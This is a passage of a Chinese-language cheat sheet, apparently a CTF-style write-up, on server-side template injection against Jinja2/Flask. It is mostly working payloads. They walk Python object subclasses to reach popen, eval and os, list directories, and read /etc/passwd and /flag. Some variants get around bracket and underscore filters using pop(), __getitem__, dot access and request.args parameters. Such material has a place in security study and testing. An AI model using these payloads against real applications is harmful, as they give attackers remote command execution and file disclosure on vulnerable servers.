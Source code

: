 ```
{{"".__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('ls').read()}}
```

![image-20220724000650617](https://tuchuang.huamang.xyz/img/image-20220724000650617.png)

### pop

最好不要用pop()，因为pop()会删除相应位置的值

```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}// 指定序列属性

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')}}// 指定字典属性
```

### 字典

我们知道访问字典里的值有两种方法，一种是把相应的键放入熟悉的方括号 `[]` 里来访问，一种就是用点 `.` 来访问。所以，当方括号 `[]` 被过滤之后，我们还可以用点 `.` 的方式来访问，如下示例

```php
__builtins__.eval()

{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
```

等同于：

```php
[__builtins__]['eval']()

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

## _

利用request对象绕过

```php
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__

{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls /').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__
```

等同于：

```php
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```
